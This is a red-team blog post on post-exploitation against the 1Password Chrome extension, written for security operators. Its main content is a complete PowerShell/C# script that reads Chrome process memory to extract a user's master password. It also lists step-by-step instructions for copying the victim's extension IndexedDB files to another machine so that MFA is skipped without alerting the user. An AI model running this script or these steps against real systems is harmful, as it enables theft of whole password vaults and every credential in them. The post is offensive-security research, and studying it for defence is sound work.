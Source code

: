 # **1Password Chrome Extension Post-Ex**


### tl;dr

I have identified a, probably known, way to "bypass MFA" (it is by design) on 1Password's Chrome Extension. So with the Master Password of the account it is possible to obtain the plaintext creds/secrets stored in the vault without needing MFA. None of this will be new or groundbreaking, I think it is just an area operators might not be looking. 

### Introduction

Red Teaming boiled down is always: get access -> pivot -> get more access until you get where you need to -> plunder. With everything moving to the magical cloud; browsers, and by proxy browser extensions can become single points of failure. So I wanted to think of ways to make life of post-execution easier in obtaining passwords now that well known methods like cookies/lsass are significantly harder to obtain.

With the [rise in use in password managers](https://www.forbes.com/sites/tonybradley/2024/10/24/password-managers-the-essential-defense-against-todays-cyber-threats/) and the secrets they contained I felt that this would be a good start. I chose 1Password because I am a customer but also have to assume almost all password manager extensions suffer from similar "flaws" as there has to be a way to obtain passwords locally/offline. For example, local KeePass DB's use [DPAPI in memory](https://keepass.info/help/base/security.html) once the safe is unlocked. 

### Obtaining Master Password

Obtaining the Master Password is the most difficult step of this attack chain. You could [install a chrome extension](https://syntax-err0r.github.io/Silently_Install_Chrome_Extension.html) or keylog the host or prompt the user, etc.

For this blog we will be scraping Chrome's memory for a string that often aligns with the MasterPassword once it is entered (again--[not new](https://www.cyberark.com/resources/threat-research-blog/extracting-clear-text-credentials-directly-from-chromium-s-memory) ). In my testing on an up to date Windows 11 and chrome this script/method seems to work more than 80% of the time and is usually preceeded by “p.” but I have seen it elsewhere as well.

![](assets/masterpassword_extract.png)

```
Add-Type -TypeDefinition @"
using System;
using System.Text;
using System.Runtime.InteropServices;

public class MemoryScanner
{
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int dwSize, out int lpNumberOfBytesRead);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern int VirtualQueryEx(IntPtr hProcess, IntPtr lpAddress, out MEMORY_BASIC_INFORMATION lpBuffer, uint dwLength);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool CloseHandle(IntPtr hObject);

    [StructLayout(LayoutKind.Sequential)]
    public struct MEMORY_BASIC_INFORMATION
    {
        public IntPtr BaseAddress;
        public IntPtr AllocationBase;
        public uint AllocationProtect;
        public IntPtr RegionSize;
        public uint State;
        public uint Protect;
        public uint Type;
    }

    public static string ScanMemory(int processId, string searchString, int extraCharacters)
    {
        const int PROCESS_QUERY_INFORMATION = 0x0400;
        const int PROCESS_VM_READ = 0x0010;
        IntPtr processHandle = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, processId);

        if (processHandle == IntPtr.Zero)
        {
            return "Failed to open process.";
        }

        IntPtr address = IntPtr.Zero;
        MEMORY_BASIC_INFORMATION mbi;
        byte[] searchBytes = Encoding.Unicode.GetBytes(searchString);

        while (VirtualQueryEx(processHandle, address, out mbi, (uint)Marshal.SizeOf(typeof(MEMORY_BASIC_INFORMATION))) != 0)
        {
            if (mbi.State == 0x1000 && (mbi.Protect & 0x04) != 0) // MEM_COMMIT & readable pages
            {
                byte[] buffer = new byte[(int)mbi.RegionSize];
                int bytesRead;
                if (ReadProcessMemory(processHandle, mbi.BaseAddress, buffer, buffer.Length, out bytesRead) && bytesRead > 0)
                {
                    for (int i = 0; i <= buffer.Length - searchBytes.Length; i++)
                    {
                        bool match = true;
                        for (int j = 0; j < searchBytes.Length; j++)
                        {
                            if (buffer[i + j] != searchBytes[j])
                            {
                                match = false;
                                break;
                            }
                        }
                        if (match)
                        {
                            int totalBytesToExtract = searchBytes.Length + (extraCharacters * 2); // Unicode is 2 bytes per char
                            if (i + totalBytesToExtract > buffer.Length)
                            {
                                totalBytesToExtract = buffer.Length - i; // Ensure we don't go out of bounds
                            }

                            string extractedText = Encoding.Unicode.GetString(buffer, i, totalBytesToExtract);
                            CloseHandle(processHandle);
                            return extractedText;
                        }
                    }
                }
            }
            address = new IntPtr(mbi.BaseAddress.ToInt64() + mbi.RegionSize.ToInt64());
        }

        CloseHandle(processHandle);
        return "String not found.";
    }
}
"@ -Language CSharp

function Search-ProcessMemory {
    param (
        [int]$TargetPID,  # Using a non-reserved variable name
        [string]$SearchString,
        [int]$ExtraCharacters = 20  # Number of extra characters to extract after the match
    )

    $process = Get-Process -Id $TargetPID -ErrorAction SilentlyContinue
    if ($process) {
        Write-Host "Scanning memory of process: $($process.ProcessName) (PID: $($process.Id))"
        $result = [MemoryScanner]::ScanMemory($process.Id, $SearchString, $ExtraCharacters)
        Write-Host $result
    } else {
        Write-Host "Process with PID $TargetPID not found."
    }
}

$chromeProcesses = Get-Process chrome -ErrorAction SilentlyContinue
$SearchString = "Enter your password"

foreach ($proc in $chromeProcesses) {
Search-ProcessMemory -TargetPID $proc.id -SearchString $SearchString -ExtraCharacters 500 }

```

### The Curious Case Of MFA

While perusing 1Passwords [support documents](https://blog.1password.com/should-protect-1password-with-2fa/) on MFA I noticed the line "When turned on, a second factor will be required to add your account on a new device, in addition to your 1Password account password and Secret Key.”. The word “new” was interesting to me. I knew from reversing the extension there was an associated device identifier but what if we can mimic/copy that id? I am sure there is some complicated checks/hashes/etc. that go into it but what I realized was if we copy over the local extension files the chrome extension saw the same device identifier, which means no MFA prompt or alerting to the user. 

Steps to reproduce:

- Install Chrome in fresh VM
- Install the 1Password Extension for Chrome
- Copy over ‘C:\Users\Nick\AppData\Local\Google\Chrome\User Data\Default\IndexedDB\chrome-extension_aeblfdkhhhdcdjpifhhbdiojplfjncoa_0.indexeddb.leveldb’ and everything underneath to the VM from the victim's machine 
- Enter in the MasterPassword


### Conclusions

If you are an operator and land on a machine it is worth your while to check to see if '%localappdata%\Google\Chrome\User Data\Default\Extensions\aeblfdkhhhdcdjpifhhbdiojplfjncoa' exists. I also want to be clear--this is not a knock on 1Password as I believe in the product (although it would be nice to add a feature to require MFA at every login). Again, none of this is new or novel or ultimately a vulnerability, we are just abusing legitimate features of software but the payout for an operator could be big. 

### Future Work

I think that once the local DB is decrypted on the victim machine there might be a way to obtain these from the IndexedDB despite the file lock without knowing the MasterPassword
